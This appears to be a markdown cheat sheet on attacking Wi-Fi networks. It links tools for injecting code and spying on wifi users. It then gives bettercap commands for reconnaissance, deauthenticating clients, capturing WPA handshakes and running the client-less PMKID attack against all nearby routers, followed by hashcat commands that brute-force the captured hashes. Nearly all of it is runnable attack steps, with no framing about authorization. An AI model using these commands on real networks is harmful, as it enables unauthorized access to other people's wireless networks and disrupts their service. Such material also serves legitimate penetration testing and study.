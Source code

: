 # Tools
- Inject code and spy on wifi users: https://github.com/DanMcInerney/LANs.py
- Collection of PowerShell network security scripts for system administrators: https://github.com/thom-s/netsec-ps-scripts
- [CyberScan: Network's Forensics ToolKit](https://github.com/medbenali/CyberScan)

# BetterCap

Swiss army knife for network attacks and monitoring: https://www.bettercap.org/

> Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack: https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/#.XGRV3mo06jA.twitter

## 4 way handshake capture:
```
sudo bettercap -iface wlan0

# this will set the interface in monitor mode and start channel hopping on all supported frequencies
> wifi.recon on
# we want our APs sorted by number of clients for this attack, the default sorting would be `rssi asc`
> set wifi.show.sort clients desc
# every second, clear our view and present an updated list of nearby WiFi networks
> set ticker.commands 'clear; wifi.show'
> ticker on
```
```
wifi.recon.channel 1
```
```
wifi.deauth e0:xx:xx:xx:xx:xx
```

## Cracking 4-way handshake
```
/path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
/path/to/hashcat -m2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
```

## Client-less PMKID Attack
> https://hashcat.net/forum/thread-7717.html
>
> PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)

```
# wifi.assoc supports 'all' (or `*`) or a specific BSSID, just like wifi.deauth
> wifi.assoc all
```
All nearby vulnerable routers (and let me reiterate: a lot of them are vulnerable), will start sending you the PMKID, which bettercap will dump to the usual pcap file:

## PMKID Cracking

```
/path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
/path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
```
